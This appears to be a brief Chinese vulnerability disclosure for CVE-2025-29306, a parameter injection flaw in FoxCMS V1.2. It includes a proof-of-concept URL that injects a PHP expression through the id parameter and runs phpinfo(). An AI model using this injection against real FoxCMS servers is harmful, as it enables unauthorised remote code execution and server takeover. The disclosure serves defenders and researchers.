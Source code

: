 # CVE-2025-29306
FOXCMS黔狐内容管理系统服务参数注入漏洞

一、漏洞简介

FoxCMS是一套可免费商用且开源的网站管理系统,采用PHP+MySQL架构。 FOXCMS黔狐内容管理系统存在服务参数注入漏洞，攻击者可利用该漏洞获取服务器控制权。

二、漏洞影响

FOXCMS黔狐内容管理系统 V1.2

三、复现过程

POC http://xx/images/index.html?id=%24{%40print(phpinfo())} 输入Poc访问漏洞页面 发现phpinfo命令执行后的信息

![image](https://github.com/user-attachments/assets/72f85989-ec01-4a24-8d55-961c5d5a1023)

